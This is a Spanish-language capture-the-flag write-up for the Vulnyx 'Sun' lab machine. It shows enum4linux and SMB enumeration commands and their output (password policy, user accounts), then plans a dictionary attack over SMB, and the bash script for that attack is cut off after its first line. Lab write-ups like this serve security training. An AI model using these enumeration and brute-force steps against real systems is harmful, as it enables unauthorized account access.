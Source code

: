 ```console
Reconnecting with SMB1 for workgroup listing.
Protocol negotiation to server 192.168.1.13 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```
[Enum users SMB](https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Sun/enumeration/smbclient_enum)  
Podemos identificar un usuario "nobody" el cual tiene en la descripción de "disk": "file upload path". Esto puede ser un posible vector de entrada para insertar un fichero y realizar un RCE (Remote Command Execution). Procedemos a enumerar más a fondo SMB con enum4linux:
```console
$ enum4linux -P 10.0.2.5
```
```console
+] Password Info for Domain: SUN

        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: 37 days 6 hours 21 minutes 
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: None
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: 37 days 6 hours 21 minutes
```
[Enum password policy](https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Sun/enumeration/passwordPolicy)  
```console
$ enum4linux -R 10.0.2.5
```
```console
S-1-22-1-1000 Unix User\punt4n0 (Local User)

[+] Enumerating users using SID S-1-5-21-3376172362-2708036654-1072164461 and logon username '', password ''

S-1-5-21-3376172362-2708036654-1072164461-501 SUN\nobody (Local User)
S-1-5-21-3376172362-2708036654-1072164461-513 SUN\None (Domain Group)
S-1-5-21-3376172362-2708036654-1072164461-1000 SUN\punt4n0 (Local User)

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
```
[enum4linux enum users](https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Sun/enumeration/enum4linux_enum)  
Podemos enumerar la página web e intentar analizarla viendo el código html de la página, pero no nos dará muchas pistas y es malgastar tiempo.
### Weaponization ###
Observamos un usuario llamado "punt4n0", sabiendo esto y que la política de complejidad de contraseña es muy débil podemos intentar un ataque de diccionario por SMB. Al no haber podido realizar esto con Hydra (debido a que no soporta SMBv1), nos creamos un pequeño script en bash para realizar este ataque: [Script bash dictionary attack](https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Sun/scripts/dictionaryAtt_smb.sh)  
```console
#!/bin/bash

```